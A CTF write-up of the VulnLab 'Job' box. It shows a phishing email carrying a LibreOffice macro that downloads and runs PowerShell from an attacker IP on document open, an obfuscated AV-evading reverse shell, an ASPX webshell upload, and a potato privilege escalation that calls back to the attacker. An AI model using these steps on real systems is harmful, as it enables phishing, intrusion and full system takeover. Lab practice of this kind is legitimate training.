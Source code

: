 ```yaml
---
title: "Job Writeup (VulnLab)"
date: 2024-12-22 00:00:00 +0800
image: /assets/posts/job/pwnedProof2.png
description: A medium rated box on vulnlab, using phishing for initial access, lateral movement and windows privilege exploitation.
categories: [CTF Writeups]
tags: [CTF, Red Team, Phishing, AV Evasion, Potato Attacks]
---
```


## NMAP Port Scan
A basic TCP port scan was done with NMAP to enumerate running services on the machine:
```bash
sudo nmap -sS -sV -A -p- 10.10.86.141 -oA nmap
```
The NMAP Output revealed that port 25,80,445 and 3389 were running:
![NMAP Scan Result](/assets/posts/job/nmapscanresult.png)

## Discovery of an email address

In the previous NMAP scan, port 80 revealed that the http title was 'Job.local'. The address was subsequently added to the /etc/hosts file:
```bash
sudo nano /etc/hosts
```
![Hosts File](/assets/posts/job/hostsfile.png)

Browsing to the HTTP server hosted, the index.html file revealed interesting information:
![HTTP Page1](/assets/posts/job/http1.png)
The webpage states an email address 'career@job.local' while hinting at a potential phishing attack vector using libre office.


## Creating a malicious ODT file
First, I opened libreoffice and pasted Lorem Ipsum in there so the document wasn't empty:
![Lorem Ipsum](/assets/posts/job/loremjob.png)

Browse to tools->macros->organize macro's->basic & create a new macro filename.odt->standard->new
![Macros](/assets/posts/job/odtmacro1.png)
![Macro2](/assets/posts/job/odtmacro2.png)

The following code was embedded into the macro to download and execute the reverse shell: 
```bash
REM  *****  BASIC  *****

Sub Main
	Shell("cmd /c powershell ""iex(new-object net.webclient).downloadstring('http://10.8.4.194/security.ps1')""")
End Sub
```

(NOTE: security.ps1 will be made in the next section).
It is important that the macro is immediately trigged, to achieve that we can add it to trigger when the document is opened tools->macros->organize macros->basic->select the created macro->assign->events->open document:
![Macro3](/assets/posts/job/odtmacro3.png)

Save the file and we will be ready to move onto creating an obfuscated reverse shell.

## Creating an obfuscated reverse shell
To ensure there was no hiccups with antivirus or AMSI, I utilised [Get-ReverseShell](https://github.com/gh0x0st/Get-ReverseShell) which is an excellent tool for creating obfuscated powershell payloads. This was used to generate our payload to eventually be downloaded when the malicious ODT file will be opened:
```bash
git clone https://github.com/gh0x0st/Get-ReverseShell
pwsh
Get-ReverseShell -Ip 10.8.4.194 -Port 53 > security.ps1
```


## Catching a shell as jack.black
A python3 http.sever must be setup to recieve download requests (same folder as malicious document):
```bash
python3 -m http.server 80
```
Now an NC Listener can be setup on the port chosen for the reverse shell, in this instance it was port 53:
```bash
nc -lvnp 53
```

Finally, we can send our document to the discovered email address using 'sendemail':
```bash
sendemail -s "job.local" \
-f "ross@job.local" \
-t "career@job.local" \
-o tls=no \
-m "Hi, I've attached my CV to the email. Please open it immediately" \
-a me.odt    
```

A short while later, our reverse shell file was downloaded from the web server and the shell was triggered on the machine:
![Shell](/assets/posts/job/shellproofjack.png)

## Switching to IIS Apppool
Viewing inetpub/wwwroot and checking if it was writable to potentially move into IIS Apppool
```bash
Get-Acl "C:\inetpub\wwwroot" | Format-List
```

The output shows that it is writable and it contains a hello.aspx file.
![inetpub](/assets/posts/job/inetpubenum.png)
![inetpub2](/assets/posts/job/inetpubenum2.png)

[SharPyShell](https://github.com/antonioCoco/SharPyShell) is a repository containing a script that can generate and interact with an obfuscated aspx file, we can use this to generate a file that can be later interacted with:
```bash
python3 SharPyShell.py generate -p somepassword
```

Now we can upload the aspx file to the machine via powershell after starting another python3 web server on the attacker machine:
```bash
python3 -m http.server 80
```

```bash
(New-Object Net.WebClient).DownloadFile('http://10.8.4.194:80/shell.aspx','C:\inetpub\wwwroot\shell.aspx')
```
![inetpub3](/assets/posts/job/inetpubenum3.png)

Following from the shell upload, we can interact with it via sharpyshell again to gain a HTTP interactive shell as IIS Apppool.
```bash
python3 SharPyShell.py interact -u http://job.local/shell.aspx -p somepassword
```
![inetpub4](/assets/posts/job/inetpubenum4.png)

## Abusing windows privileges to admin
Viewing account privileges on the apppool showed that SeImpersonatePrivilege was available:
```bash
whoami /priv
```
![privesc1](/assets/posts/job/privesc1.png)

From here gaining administrator privileges was relatively simple, we can use a potato exploit. In this instance I opted to use SigmaPotato https://github.com/tylerdotrar/SigmaPotato, to use this transfer it from the attacker machine to the host machine using sharpy's webshell.
```bash
#upload /opt/PrivEsc/Windows/Exploits/Potato/SigmaPotato.exe
```
Then execute sigmapotato connecting to your setup nc listener:
```bash
SigmaPotato.exe --revshell 10.8.4.194 443
```

We eventually receive a callback on the shell as NT authority\system.
![pwned](/assets/posts/job/pwned.png)
PWNED!
